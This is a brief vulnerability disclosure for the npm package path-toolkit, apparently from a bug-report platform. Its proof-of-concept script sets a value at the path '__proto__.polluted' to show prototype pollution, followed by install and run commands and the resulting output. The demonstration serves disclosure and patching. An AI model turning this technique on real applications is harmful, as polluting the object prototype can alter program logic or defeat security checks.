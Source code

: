 # Description

`path-toolkit` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var pathToolkit = require("path-toolkit")
var ptk = new pathToolkit();
var obj = {}
console.log("Before : " + {}.polluted);
ptk.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i path-toolkit # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
